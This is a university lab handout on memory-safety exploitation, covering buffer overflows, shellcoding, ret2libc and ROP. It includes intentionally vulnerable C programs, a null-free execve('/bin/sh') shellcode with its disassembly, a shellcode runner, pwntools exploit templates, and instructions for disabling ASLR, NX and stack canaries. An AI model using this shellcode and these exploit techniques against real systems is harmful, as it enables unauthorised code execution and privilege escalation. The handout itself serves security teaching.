

# Software and Hardware Security Lab 3: Shellcoding and exploits

## Pre-requisites

This exercise requires a deep understanding of how the computer stack works, how it manages the underlying memory, and the basics of assembly language.

Before starting the exercise, it is recommended to read the first two chapters of the book "Low-Level Software Security for Compiler Developers" [^5] and the paper "Smashing The Stack For Fun And Profit" [^1].

Some of those concepts are also summarised here.

We only cover the Linux operating system in this exercise, although many similarities can also be found with other modern operating systems.

## Background

We often see references to memory errors, and we might have encountered them ourselves while programming in a systems programming language, especially C or C++.
Usually, you see a `Segmentation fault` or some other _undefined behavior_ [^8] when you encounter one.

We fuzz test software specifically to find memory errors.
Why is this a big deal?
Historically, memory bugs have caused many security disasters.
In the worst case, memory bugs can be used to manipulate the execution flow of the program, allowing arbitrary code execution or reads of unauthorized memory.

The first documented case of such misuse dates back to 1988 [^0].
The techniques were brought to public attention by Aleph One in his 1996 publication "Smashing The Stack For Fun And Profit" [^1].
Surveys published by Microsoft and Google in 2019 suggest that around 70% of the security bugs fixed in Microsoft products and in the Chrome browser are memory bugs [^2][^3].
Memory-safety weaknesses have also ranked at the very top of MITRE's CWE Top 25 for years: _Out-of-bounds Write_ was the most dangerous software weakness in 2023 [^4], and although it had dropped to fifth place by 2025, _Stack-based Buffer Overflow_ - the very weakness we exploit in this exercise - entered the 2025 list at rank 14 [^19].

In this exercise, we will examine the practical implications of memory bugs at a technical level and explore how they have been exploited, particularly through the technique of _**shellcoding**_.

As a primary theoretical source, we use the online book "Low-Level Software Security for Compiler Developers" [^5].

## Grading

<details open><summary>Details </summary>
Make a short step-by-step report (what, why and how) of the following tasks, and include source codes and the most important command line commands used in those tasks.
It's recommended to read all tasks before starting.

Actual instructions for what to do are _**in bold and italics**_ on each task.

You are eligible for the following grades in this exercise by completing the tasks as defined. Great ideas and implementations can compensate for some poorly implemented ones.
_Upper grade requires that all previous tasks have been done as well._

It is estimated that you can do Tasks 1 & 2 during the lab session (4 hours).

Tasks 3 & 4 are more advanced than the earlier ones. The implementation will very likely take considerably more time.

| Task                                                                                                       | Points | Description                                           |
| ---------------------------------------------------------------------------------------------------------- | :----: | ----------------------------------------------------- |
| [Task 1](#task-1-basics-of-buffer-overflows "Task 1 : Basics of buffer overflows")                         |   1    | Analyzing buffer overflow and changing execution flow |
| [Task 2](#task-2-arbitrary-code-execution "Task 2 : Arbitrary code execution")                             |   2    | Arbitrary code execution in the vulnerable program    |
| [Task 3](#task-3-defeating-no-execute "Task 3 : Defeating No-eXecute")                                     |   1    | Code reuse attack techniques: ret2libc & ROP          |
| [Task 4](#task-4-a-bit-more-advanced-rop-implementation "Task 4 : A bit more advanced ROP implementation") |   1    | A bit more advanced ROP implementation                |

Part A of Task 2 alone compensates for 0.5 points.
Part B is worth 1.5 points out of the total of 2.

Difficulty on tasks is expected to rise exponentially as you go forward with them.
Without understanding the previous task, the next one could be very ambiguous.

_Return completed tasks to your private GitHub repository!_

</details>

## Introduction

Below is a summary of memory errors and their dangers.
If you are already familiar with these topics, or have read the previously mentioned book and understood it, you can go directly to the task assignments.

<details closed><summary>Collapsed content </summary>

### What is a memory error?

> Memory access errors describe memory accesses that, although permitted by a program, were not intended by the programmer. [^5]

Memory access errors are often defined [^6] as:

- buffer overflow
- null pointer dereference
- use after free
- use of uninitialized memory
- illegal free

The software is memory-safe if these errors never occur.

There are usually two main reasons why dangerous memory bugs are possible.

- The software takes user-defined input
- This input is neither validated nor sanitized, so the program flow can be controlled with the input in ways that were originally unintended

This input validation and sanitization is one of the major challenges in software development.
You must ensure that _every_ unintended effect of the user-defined input is either _prevented_ or _handled_.

You want the user to provide a name that is 15 characters long at maximum.
What if they provide 20 characters???

### Buffer overflows

If your program does not handle input longer than 15 characters as in the previous example, a so-called _buffer overflow_ can happen — as long as the programming language does not add a boundary check automatically.

This error is usually the most dangerous type.
MITRE's top weakness of 2023 (out-of-bounds write) [^4] belongs to this category.

To understand why, we need to understand how a computer works at the stack level and what the principles of programming languages have to do with it.

The fundamental philosophy of C programming is to "trust the programmer".
Do not prevent the programmer from doing what needs to be done.
The programmer has ultimate control, but also ultimate responsibility.
This means that they must also use memory correctly.

In the naive example below, the compiler reserves 15 bytes of stack space for the `name` variable.

This means that a name of at most 14 characters (plus the null terminator `\x00`) can fit into this buffer.
The programmer should know that the null terminator also takes up space.

```c
#include <stdio.h>

int main() {
    char name[15];

    printf("Please enter your name: ");
    scanf("%s", name);

    printf("Hello, %s!\n", name);
    return 0;
}
```

Since the compiler trusts the programmer, the program only does what it is programmed to do; in this case it does not check the boundaries of the buffer.

If the end user provides input longer than 14 characters, the buffer overflows and writes into the memory area that was not reserved for it.

In practice, a software buffer overflow means that the space reserved for the data is insufficient for the data being stored.

> "Buffer overflows are Mother Nature's little reminder of that law of physics that says: if you try to put more stuff into a container than it can hold, you're going to make a mess." [^7]

Conversely, a buffer over-read means that a read operation may read more than it should.

We mainly focus on stack buffer overflows in this exercise.

If you are curious about how memory in the `heap` works, take a look at [this page](https://samwho.dev/memory-allocation/) [^15].

### Understanding the stack

The computer stack is like a stack of books.

1. You can only add (push) or remove (pop) a book at the top (also known as FILO: first in, last out).
2. It's used to keep track of operations like function calls: when a function starts, its details are added (pushed) to the stack, and when it ends, they are removed (popped).
3. If the pile of books grows past the edge of the table, the whole pile collapses. Something similar happens in a program when the stack grows past its limit — that is a _stack overflow_. A _stack buffer overflow_ is a different (and more interesting) bug: a single buffer on the stack is written past its own end, which is the vulnerability we are after in this exercise.

When an application runs, it uses the stack and registers to manage the program's execution flow. The stack is split into frames, each holding the data of a function that has not yet returned. A frame stores the function's arguments, its local variables, the return address, and more. For instance, a program with three nested function calls generates three stack frames.

Below is a simplified example of the stack of a 32-bit program, where `funcA()` is called first and then calls `funcB()`.

| Memory Address |           Content            |                 Description                  |
| :------------: | :--------------------------: | :------------------------------------------: |
|  `0xffbfe14c`  | `Local Variable of funcA()`  |       A local variable from `funcA()`        |
|  `0xffbfe148`  | `Local Variable of funcA()`  |    Another local variable from `funcA()`     |
|  `0xffbfe144`  | `Return Address for funcA()` | The return address after `funcA()` completes |
|  `0xffbfe140`  |      `EBP for funcA()`       |       Base pointer (EBP) for `funcA()`       |
|  `0xffbfe13c`  | `Local Variable of funcB()`  |       A local variable from `funcB()`        |
|  `0xffbfe138`  | `Return Address for funcB()` | The return address after `funcB()` completes |
|  `0xffbfe134`  |      `EBP for funcB()`       |       Base pointer (EBP) for `funcB()`       |
|      ...       |             ...              |                     ...                      |

### Dangers of the overflow

While the stack grows towards lower memory addresses, an overflowing local variable writes towards higher memory addresses.
See the illustration below.

```sql
|---------------------|
| Return Address      |  <-- Higher Memory Address
|---------------------|
| Saved Base Pointer  |
|---------------------|
| Local Variable 1    |
|---------------------|
| Array (e.g., char)  |  <-- End of local array
| (Variable 2)|
|                     |
|---------------------|  <-- Start of local array
| Local Variable 2    |
|---------------------|
| ...                 |  <-- Stack Pointer (Lower Memory Address)
|---------------------|
```

When the data written into the array (`Variable 1`) exceeds the space allocated for it, it overwrites the adjacent memory regions, which are exactly the ones that control the program's execution flow!

If an attacker successfully overwrites the return address, they can dictate where the program resumes execution next. If the manipulated return address points to a location containing malicious instructions, the program will unwittingly execute that code.

In earlier eras, many compilers lacked mechanisms to detect or prevent such overflows.
Consequently, these vulnerabilities have sometimes led to arbitrary code execution.

For more information, read the section 2.3, "Stack buffer overflows", in "Low-Level Software Security for Compiler Developers" [^5].

### Shellcoding

The term "_**shellcoding**_" comes from the scenario in which these memory bugs are exploited in such a way that they end up opening the computer's shell.

Manipulating the execution flow of a vulnerable program can potentially result in privilege escalation.
A vulnerable program running with system-level privileges might unintentionally run arbitrary code with those elevated rights.
Historically, exploiting a setuid program to launch a shell gave the attacker a shell with that program's elevated permissions.
Modern UNIX systems make this harder — the kernel ignores the setuid bit on interpreted scripts, and hardening measures such as privilege dropping and `nosuid` mounts reduce the number of useful targets — but the setuid bit is still honoured on binaries, so the risk has not disappeared.

Acquiring shell access this way usually leads to full control of the system, which is why spawning a shell is one of the most common goals of attackers.

</details>
<br>

## General tips

In most cases you need to use C or C++ to create a program with a buffer overflow vulnerability.

The tasks can be done with either 32-bit or 64-bit machine instructions, as long as the machine supports them.
Use the `-m32` flag with `gcc` to compile for 32-bit.

**You must use emulation on ARM-based host machine!**

To enable 32-bit support for Arch Linux, uncomment or add the following lines in `/etc/pacman.conf`:

```ini
[multilib]
Include = /etc/pacman.d/mirrorlist
```

Then install the 32-bit development packages for `gcc`:

```bash
pacman -Sy multilib-devel
```

On Debian-based systems (e.g. Kali Linux), install the following packages:

```bash
sudo apt-get install gcc-multilib g++-multilib
```

The implementation differs between versions and can be more challenging. Using 32-bit binaries is recommended, since more examples are available for them.

On some distributions Task 3A may not be possible, because ASCII Armoring is in place.

Encoding matters a great deal in these tasks. Python 2's `print` statement wrote raw bytes, whereas `print()` in Python 3 writes a `str`, which is encoded with the encoding of stdout (UTF-8 by default) as it leaves the program. Note that Python 2 reached end of life in 2020, so use Python 3.

The following external tools are used in the tasks:

- [radare2](https://github.com/radareorg/radare2) - advanced disassembler and forensics tool
- [pwntools](https://github.com/Gallopsled/pwntools) - controlled generation and execution of payloads

### Mitigation

You should be aware of the following Linux protections.
You can find most of them in the book [^5].

- Stack canaries (SSP)
  - `-fno-stack-protector` gcc compiler flag to disable
- Non-executable pages or stacks (NX)
  - `-z execstack` gcc compiler flag to disable
- Address Space Layout Randomization (ASLR)
  - To disable globally: `echo 0 > /proc/sys/kernel/randomize_va_space`

- Less known, no need to note unless specified in the task: ASCII Armoring, RELRO, PIE, `_FORTIFY_SOURCE`, `PTR_MANGLE`

Disable them if a task requires it.

In the later tasks we try to bypass some of them; those tasks specifically tell you **not to disable** them.

Since GCC 14, a single option, `-fhardened`, applies multiple protections at once [^13]:

```bash
-D_FORTIFY_SOURCE=3 (=2 instead when glibc is older than 2.35)
-D_GLIBCXX_ASSERTIONS
-ftrivial-auto-var-init=zero
-fPIE -pie -Wl,-z,relro,-z,now
-fstack-protector-strong
-fstack-clash-protection
-fcf-protection=full (x86 GNU/Linux only)
```

The exact set of flags may change between GCC releases, and `-fhardened` only enables an option if it was not already given on the command line. Check `gcc --help=hardened` for your compiler.

#### Control-flow integrity

Modern processors and compilers apply even more complex mitigations to prevent shellcoding.
Code-reuse techniques (ROP, JOP) are mitigated by a technique called _control-flow integrity_ [^9].
Usually this is implemented either with authentication tags on return addresses or by maintaining a _shadow stack_, which is compared against the return addresses stored on the real stack.
However, these can still be bypassed — for example, if an adversary somehow obtains the private key. Check the book for more details.

Different companies use different names for it: Intel calls it Control-flow Enforcement Technology (CET) [^10], Microsoft calls it Control Flow Guard (CFG) [^12], and ARM calls it Pointer Authentication Code (PAC) [^11].

These protections come with a performance cost, which is one reason why they are also implemented in hardware.

---

Task 1: Basics of buffer overflows
---

> **Note**
> You will need Python and the `pwntools` [^14] dependency for the later parts of this task.

Let's examine this in a real-world scenario.

In this initial task, we are using a simple program with a buffer overflow vulnerability.
With specifically crafted input we will change the behavior to something unintended for the program, but intended for us.

We have the following code (also located in [src/vuln_progs/overflow.c](src/vuln_progs/overflow.c)):

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

void stackoverflow(char* string) {
    char buffer[20];
    strcpy(buffer, string);
    printf("%s\n", buffer);
}

int main(int argc, char** argv) {
    printf("Starting very vulnerable program...\n");
    printf("Printing arguments of the program: \n");
    stackoverflow(argv[1]);
    return 0;
}
```

Build it optionally with the `Makefile` next to it as 32-bit program. `TASK` parameter selects the compiler flags each task needs:

```bash
cd src/vuln_progs
make TASK=1
```

To get a better understanding of how the stack works, we need to use a debugger.

Go through the tutorial [here](gdb_tutorial.md) to get started.

We want to understand the very basics of what happens to the stack and to the machine's registers at the moment when a stack overflow occurs.

Try it out by yourself.
It is not necessary if you are already very familiar with the topic and are able to answer the bolded questions.

### A) Using a program with improper input validation and analyzing the overflow.

What makes the `rip` register so interesting? What does the `ret` instruction have to do with the `rip` register in most cases of buffer overflow?

The answers lead to the conclusion that we usually need to place the buffer overflow in an external function. In this lab it is recommended to do so, so that things do not get too hard.

You can do this task in 32-bit or 64-bit versions.
By default, the program is compiled as 64-bit.

Stack canaries can cause problems if you are using a modern distribution; disable them.

> _**1. Explain briefly the role of the `rip` register and `ret` instruction, and why we are interested in them.**_

> _**2. Explain what is causing the overflow in the [example program.](src/vuln_progs/overflow.c)**_

> _**3. Next, analyze this program with `gdb` and try to find a suitable size for the overflow (padding size) at which your input starts to fill up the instruction pointer register.**_
> **Provide a screenshot when the overflow occurs and one byte from your input reaches the instruction pointer register.**

### B) Adding hidden (non-used) function to the previous program. (And still executing it)

Let's add a new function to the previously used program, but never actually use it.

We are going to execute this function by overflowing the program with specifically crafted input (in other words, with our payload).

In this payload a specific memory address is used, which you should be able to identify from the information in Section A.
To hit that address precisely with the buffer overflow, you need the right amount of padding.

By overflowing the buffer with the right amount of padding and inserting the correct memory address, you can redirect the program's execution flow to the memory location you chose.
Adjust the padding bit by bit to fine-tune this process.

**The example below is written for Python 3. In Python 3 you must write the bytes explicitly instead of just using `print`. Note that Python 2 is end-of-life, so the Python 3 form shown below is the one to use.**

```shell
python -c 'import sys; sys.stdout.buffer.write(b"data")'
```

An example scenario would be something like this.
The function which is never actually called, is printing something and opening the shell:

```shell
# ./Overflow $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 10)')
AAAAAAAAAA
# ./Overflow $(python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 20 + b"\x11\x11\x11\x11")')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGUUUUAccidental shell access appeared
# exit
exit
Illegal instruction
#

```

The script above expects the program to take its input as a command-line argument. The padding sizes shown are only illustrative — yours will depend on the binary.
Also, the way the memory address is passed as input is not straightforward. (Is your system little- or big-endian?)

_**Use `gdb` or a similar program to analyze your program; disassembling might help. Find a suitable address, figure out what needs to be overflowed with it and how to get the correct values in there, and finally execute the function this way.**_

> _**1. Return your whole program with new function as code snippet!**_

> _**2. Return the command you used for running the function. How did you execute function by just overflowing the input?**_

> _**3. Take a screenshot when you manage to execute the function.**_

Tip: If your hidden function prints something, end the string with a newline.
Otherwise you may see no output at all, because the output buffer needs to be flushed.

### C) Reproduce the previous with `pwntools`

Install `pwntools`, if you haven't already [^14].

```bash
# Create virtual environment
python -m venv venv
# Activate it
source venv/bin/activate
pip install --upgrade pip
pip install pwntools
```

At this point we move outside of `gdb`.
When `gdb` runs a program, it disables `ASLR` for it by default, so the addresses you saw under the debugger are not the ones you get in a normal run.
That is why the same address does not work once you exit the debugger.
Either disable `ASLR` globally, or bypass it in your exploit.

In general, only _a small address change is required for it to work outside of `gdb`_, and that change can be brute forced.

This time we will account for the address change with the help of `pwntools`, instead of brute forcing it.
It is a library meant specifically for writing exploits.
Use the following `pwntools` template to overflow the program outside of `gdb`.
This works because the binary is non-PIE: the code addresses, including the address of the hidden function, are fixed and are the same in every run.

You only need to replace the parts marked with `'?'` for it to work!
In the example, the program is compiled as 32-bit.
In this case you must compile it with the `-no-pie` option.

```python
from pwn import *
context.update(arch='i386', os='linux', endian='little', word_size=32)
context.binary="./overflow"

def main():
    # Our beloved target binary
    # ELF() parses the binary and gives us its symbols and their addresses
    task_bin = ELF('./overflow')
    # Payload to be passed into the program
    PADDING_SIZE = '?'
    payload = b"A" * PADDING_SIZE
    # Get address of the function automatically!
    # What are symbols of the compiled program?
    secret = task_bin.symbols['?']
    # 'I' means unsigned int; it converts the integer to bytes with the correct alignment
    payload += struct.pack('I', secret)
    print(f'Secret address {hex(secret)}')
    p = task_bin.process(argv=[payload])
    print(p.recvall().decode("utf-8", "ignore"))
    # p.interactive() # if your function spawns a shell

if __name__ == "__main__":
    main()
```

Getting used to `pwntools` now will help with the following tasks.

> _**Return a screenshot when you manage to execute the "secret" function by using `pwntools` and also return your Python source code.**_

> [!NOTE]
> The external grading system grades this whole task automatically. It uses the container targets that [docker/README.md](docker/README.md) describes. You can build the same targets and test your exploit locally before you submit it. Each target is a network service, and it prints the flag when your exploit succeeds. You can prepare with those containers before the external system becomes public. The 1C part on the remote target gives one point, and leaks you the binary's base address. The exploit logic should be based on this address leak.

---

Task 2: Arbitrary code execution
---

How about creating a more advanced payload — some arbitrary code that we want to execute — and passing it to the vulnerable program we created earlier?

Could we redirect the execution flow to our own code?
That would mean running our code inside another program.
This is exactly what the earliest exploits did.

**Ultimately, the goal is to transform our custom code into the format in which it appears in memory during CPU execution, so that the computer can execute it like any other code.**

For clarity, we can draft the payload in C/C++.
After that, this code should be translated into machine code by hand.
We avoid auto-generating the assembly from a compiled binary for the reasons noted later.
The resulting machine code can then be combined with other instructions to complete the payload.

A well-known white paper on this approach was written by Aleph One [^1].

For a deeper understanding, consider the previously cited book and the following blog articles.

- https://0x00sec.org/t/linux-shellcoding-part-1-0/289
- https://dhavalkapil.com/blogs/Shellcode-Injection/
- http://hackoftheday.securitytube.net/2013/04/demystifying-execve-shellcode-stack.html

## A) Crafting the payload

Let's take a look into the following C code:

```c
#include <unistd.h>

int main() {
        char *args[2];
        args[0] = "/bin/sh";
        args[1] = NULL;
        execve(args[0], args, NULL);
}
```

We can compile the code and run it. It spawns a shell `/bin/sh`.

```bash
gcc -o shell shell.c
./shell
exit
```

If we take a look at the generated machine code with `objdump -D shell`, we see that the binary is quite large and **also contains many null bytes (`0x00`)**.
Our shellcode usually cannot contain null bytes, because the vulnerability is typically in a string function, as it is here.
For example, `strcpy` stops copying at a null byte.

Null bytes can also cause problems in many other situations.

As a result, we need to write the above functionality without null bytes.
We could get the following 32-bit assembly:

```assembly
global _start

section .text
_start:

xor eax, eax ; Generate Zeros
push eax ; Zero to stack
push 0x68732f6e ;
push 0x69622f2f ; //bin/sh to stack as reversed (hs/nib//)


mov ebx, esp ; Make EBX point to //bin/sh on the Stack using ESP

; PUSH 0x00000000 using EAX and point EDX to it using ESP

push eax
mov edx, esp

; PUSH Address of //bin/sh on the Stack and make ECX point to it using ESP

push ebx
mov ecx, esp

; EAX = 0, Let's move 11 into AL to avoid nulls in the Shellcode

mov al, 11
int 0x80
```

We can compile and link it as a 32-bit binary.

```bash
nasm -f elf32 shell.asm
ld  -m elf_i386 shell.o -o shell
```

Now if you check the machine code with `objdump -D shell`, you can see that it is free of null bytes and contains only the `_start` symbol.

```assembly
objdump -D shell

shell:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       31 c0                   xor    %eax,%eax
 8049002:       50                      push   %eax
 8049003:       68 6e 2f 73 68          push   $0x68732f6e
 8049008:       68 2f 2f 62 69          push   $0x69622f2f
 804900d:       89 e3                   mov    %esp,%ebx
 804900f:       50                      push   %eax
 8049010:       89 e2                   mov    %esp,%edx
 8049012:       53                      push   %ebx
 8049013:       89 e1                   mov    %esp,%ecx
 8049015:       b0 0b                   mov    $0xb,%al
 8049017:       cd 80                   int    $0x80
```

The second column shows the machine code for the assembly instructions, in hexadecimal.

For a first task, take these machine code pieces, combine them, and test their execution in a C program.
You can look at the blogs listed above for a more detailed explanation.

The test program could be the following, for example:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    char shellcode[] = "<your shellcode>";
    void(*fp) (void);
    fp = (void *)&shellcode;
    fp();
}
```

Compile the test program with the correct compiler flags and run the shellcode.

> _**Provide the commands for compiling the program, the source code of the test C program with shellcode, and a screenshot when you successfully open a shell by executing the shellcode.**_

## B) Executing the payload in another program

In Task 1 we figured out that we can redirect the execution flow to a specific address by overflowing the stack so that the instruction pointer is altered.
We did that by executing a function that was never normally called.

With this information, we now have:

- We have new machine code from the previous part and we could store it somewhere, preferably in our program's memory space.
- We could redirect the execution flow into this machine code
- As a result, we could execute arbitrary code in another program!

We can try to do this as in the first task: using `gdb` and `python` to generate the payload.

We need to solve the following problems:

- Can the shellcode fit into the `buffer` variable? Maybe we can adjust its size — or simply place the shellcode _after_ everything else, since the stack grows downwards and only the current stack frame needs to stay intact for the program to work?
- What is the address of the shellcode? Can we widen the target range and improve our odds by using the `NOP` instruction as a so-called NOP sled?

The flow is the following:


```mermaid
flowchart LR
    A[Program receives input] --> B[Buffer overflows]
    B --> C[Alter instruction pointer]
    C --> D[Execution jumps to shellcode or NOP instruction]
    D --> E[Shellcode executed from 'buffer' variable]
    E -- Shell opens --> A
```

Consult the previously mentioned materials if you get stuck.

> _**1. First, you need to open a shell by executing the shellcode in the provided sample program, inside `gdb`. Adjust the padding, find the correct memory address and run the shellcode! Provide the command and screenshot when it succeeds. Explain how you obtained the memory address and the logic of your command.**_

> _**2. Second, let's run the same shellcode with `pwntools`, outside of the debugger. You will have to brute force the address, but it should be quite close to the one you found in `gdb`. Return your code and a screenshot of the success. Briefly explain what you had to do.**_

Make sure to disable ASLR, and remember to work with raw bytes instead of encoded strings — for example, use the following instead of `print` when generating payloads with Python 3:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"payload")'
```

A NOP sled can also help significantly with hitting the correct memory address.

> [!NOTE]
> The external grading system grades this whole task automatically at once. It uses the container targets that [docker/README.md](docker/README.md) describes. You can build the same targets and test your exploit locally before you submit it. Each target is a network service, and it prints the flag when your exploit succeeds. You can prepare with those containers before the external system becomes public. The remote system leaks the stack address, and you need to use that address as base for implementing your exploit.

---

Task 3: Defeating No-eXecute
----

In the previous task we executed arbitrary code straight from the stack.
That is a rather simple, old method, and it was prevented a (long) time ago.

The NX bit (no-eXecute) was introduced [^16] to separate the memory used for storing instructions from the memory used for storing data.
Processors will not execute memory pages marked with the NX bit — in practice, the pages that hold only 'data'.

This makes it very hard to execute a payload that lives on the stack, for example when it was stored there as input to the vulnerable program.

But what if we are _not_ executing code on the stack?
This prevention method led to the rise of _code reuse attack techniques_ (ret2libc, ROP, JOP, COOP, etc.). These techniques focus on using existing code to build the functionality we need.
But where do we get that code from?

_The presence of ASLR could also be bypassed with a specific implementation and combination of these techniques, but that is left outside of this task, as it makes things a bit more complicated. Usually it requires information leakage as well. By default, it will probably prevent everything that we are doing next._

Of the techniques mentioned above, we will take a brief look at ret2libc and ROP, two of the basic and original ones.

### A) Return-to-libc (aka ret2libc)

One solution for this is... libraries. Specifically, dynamic libraries, which are loaded when the program is executed.
It is safe to say that a program which uses no libraries at all is very rare.

Library code is not marked non-executable: it consists of ordinary instructions.
By overflowing the stack suitably, we may be able to call library functions with the parameters we want.
We craft the payload so that the overwritten return addresses point into the library.
Functions of the vulnerable program itself can be reused in the same way (see Task 1).

One very common library is **libc** (which probably gave this method its name, 'ret2libc'), and it offers a lot of flexibility. Arguably the most useful function there is _system()_: given _/bin/sh_ as its argument, it starts a shell.
If we pass the correct argument to `system()`, the code is not executed on the stack, but at the address of `system()`. This was one of the earliest methods for bypassing NX protection.

> _**In this task, you should make an example implementation of this ret2libc method. It could be, for example, spawning a local shell. This time, **do not** disable NX protection (do not use the `-z execstack` flag in the compiler). Disabling other protections is still required. As before, make a step-by-step report (what, why, how) including possible source files and the command-line commands that led you to shell access.**_

To be noted:

- You should check whether ASCII Armoring is present on your system. If the address of the `system` function contains null bytes, it is enough to describe how you could have done the task.
- This task is much easier with 32-bit binaries; the function parameters are passed differently than on a 64-bit system. (Stack vs. registers?)

A simple example implementation can be found in [this paper](https://shellblade.net/files/docs/ret2libc.pdf).

Extra: The method was first published [here](https://seclists.org/bugtraq/1997/Aug/63) (Solar Designer, Bugtraq, 1997).

> [!NOTE]
> The external grading system grades this task automatically. It uses the container targets that [docker/README.md](docker/README.md) describes. You can build the same targets and test your exploit locally before you submit it. Each target is a network service, and it prints the flag when your exploit succeeds. You can prepare with those containers before the external system becomes public. This task is relatively simple - just use the leaked address as base for calculating the payload, with the help of the `glibc` you can get from the provided container.

### B) Return-oriented programming (aka ROP)

The return-to-libc method has some limitations: we depend heavily on the functions and arguments available in the libraries (and in the vulnerable program's text segment).
Sometimes the functionality we want is very hard to implement with existing whole functions alone.
With the plain ret2libc technique, chaining more than a couple of function calls is awkward, because the arguments you place after a return address are themselves interpreted as further return addresses. This is explained further below.

Return-oriented programming (ROP) is the more sophisticated version of ret2libc;
in addition to whole library functions, we reuse **code chunks** (instruction
sequences) taken from the libraries and from the program itself. These live in the program's executable memory.

In practice we use sequences that end with a **ret** instruction.
This makes them useful to us, as we can chain these code chunks (which are usually called 'gadgets') to build the bigger piece of code we need.
After a gadget has been executed, the execution flow can be set up so that the next gadget is executed, and so on.
With some special gadgets we can control the stack and chain as many calls as we want.

An Intel-syntax example can be as simple as this:

```shell
pop eax ;ret
```

By giving enough reusable code, ROP is _Turing complete_ [^17].

But how do we find and execute these gadgets?

We could disassemble binaries by hand and look for them, but that takes a lot of effort.
Luckily, there are tools we can use.

As an example we use [radare2](https://github.com/radare/radare2), a multipurpose reverse-engineering tool. Dedicated gadget finders such as [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) and [ropper](https://github.com/sashs/ropper) are also widely used.

Let's once again use the vulnerable program from Task 1 as our target.
The tutorial for ROP, with an example of using radare2 (and pwntools) with it, is [here](Radare2_and_gadgets.md).

A simple but practical demonstration of the ROP technique can be found [here](https://tc.gts3.org/cs6265/2016/l/lab07-rop/README-tut.txt).

Extra: The white paper that introduced ROP can be found here [^18].

> _**Try to get the previously mentioned example (`ROP_hello`) [here](src/ROP_hello.py) working by yourself. Next, make a simple example implementation of the ROP technique. This could be spawning a local shell, for example. To keep it different from the ret2libc method, print some text before spawning the shell and also print something after exiting the shell. That way you apply a ROP chain.**_

Tip: If you are a bit unlucky and face function addresses containing null bytes on a non-ASCII-Armored system, try alternative functions. For example, the `putchar` function has the `putchar_unlocked` alternative.

Extra: What if you use symbols with `pwntools` and load the `libc` binary with it as well? Then you can avoid hardcoded addresses altogether.

> [!NOTE]
> The external grading system grades this task automatically. It uses the container targets that [docker/README.md](docker/README.md) describes. You can build the same targets and test your exploit locally before you submit it. Each target is a network service, and it prints the flag when your exploit succeeds. You can prepare with those containers before the external system becomes public.
> In this case, the ROP demonstration must read root-owned flag by using the `setuid` process capabilities. Spawning a shell would drop your privileges, so you must make a proper chain to read and print the contents of the leaked flag address with your ROP chain.

---

Task 4: A bit more advanced ROP implementation
----

You have the option to do the pre-defined task below **or** suggest another task you would like to do. Something interesting in shellcoding that we have not covered yet? Feel free to implement it and show us what you came up with.
It does not necessarily have to be related to ROP, although in most cases it probably will be. _Your task has to be approved by the assistant before you can start working on it._

## Defeating ASLR (kinda): pre-defined task

As the name implies, ASLR (Address Space Layout Randomization) randomizes the virtual memory locations at which modules are loaded.

In this task, the executable is compiled with Position Independent Executable (PIE)
disabled, so ASLR does not affect this executable. However, you cannot hardcode, for example, libc function addresses into the exploit, because ASLR still randomizes the libraries.

Before you start working on this task, confirm that ASLR is enabled:

```console
$ cat /proc/sys/kernel/randomize_va_space
2
```

If not, enable ASLR:

```console
$ echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
2
```

Your objective is to:

1. Find the buffer overflow vulnerability
2. Figure out how it could be used to read memory. Hints:
   1. Does the executable import functions that can print strings (or memory) to stdout?
3. Use that to disclose imported libc function addresses. Hints:
   1. Check out `.got.plt`.
   2. Remember to enter the main loop again after every read (ret back to the loop start)
      - Be careful that you `ret` to the correct place, otherwise a segfault is likely.
4. Find the libc version and base address using that information. Hints:
   - Use a libc database, such as https://libc.rip/ or the [libc-database](https://github.com/niklasb/libc-database) tool
5. Compute the address of your desired libc function (or gadget) using that information
6. Create a ROP chain that opens a local shell using, e.g., `system` or `execve`

See [task4.c](./src/vuln_progs/task4.c) for the source code of the vulnerable program.
The 32-bit binary is in [prog_bins/](./prog_bins). The binary was compiled with:

```console
gcc task.c -m32 -no-pie -o task4
```

I recommend that you develop your exploit as a `pwntools` script, similar to the one below. This one debugs the program with gdb and sets breakpoints at `main` and `0x8049246`.
In gdb, assembly can be viewed using `layout asm` and the stack can be printed using `x/20xw $esp`. Similarly, `x/20xw $ebp` prints the current stack frame. See [GDB documentation](https://www.gnu.org/software/gdb/documentation/).

```python
#!/usr/bin/python3
import pwn
import pwnlib.util.packing as packing
import struct

pwn.context.terminal = ['/usr/bin/x-terminal-emulator', '-e']
pwn.context.log_level = 'debug'

io = pwn.pwnlib.gdb.debug('./program', '''
break main
break *0x8049246
''')

# put your exploit here

io.interactive()
```

[^0]: [The Internet Worm of 1988](https://web.archive.org/web/20070520233435/http://world.std.com/~franl/worm.html)

[^1]: [Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html)

[^2]: [A proactive approach to more secure code ](https://msrc.microsoft.com/blog/2019/07/a-proactive-approach-to-more-secure-code/)

[^3]: [Memory safety](https://www.chromium.org/Home/chromium-security/memory-safety/)

[^4]: [2023 CWE Top 25 Most Dangerous Software Weaknesses](https://cwe.mitre.org/top25/archive/2023/2023_top25_list.html)

[^5]: [Low-Level Software Security for Compiler Developers](https://llsoftsec.github.io/llsoftsecbook/)

[^6]: [SoK: Eternal War in Memory](https://ieeexplore.ieee.org/document/6547101?arnumber=6547101)

[^7]: [2009 CWE/SANS Top 25 Most Dangerous Programming Errors](https://cwe.mitre.org/top25/archive/2009/2009_cwe_sans_top25.html)

[^8]: [Undefined behavior](https://en.wikipedia.org/wiki/Undefined_behavior)

[^9]: [Control-flow Integrity ](https://en.wikipedia.org/wiki/Control-flow_integrity)

[^10]: [A Technical Look at Intel’s Control-flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html)

[^11]: [Pointer Authentication on ARMv8.3](https://www.qualcomm.com/content/dam/qcomm-martech/dm-assets/documents/pointer-auth-v7.pdf)

[^12]: [Control Flow Guard for platform security](https://learn.microsoft.com/en-us/windows/win32/secbp/control-flow-guard)

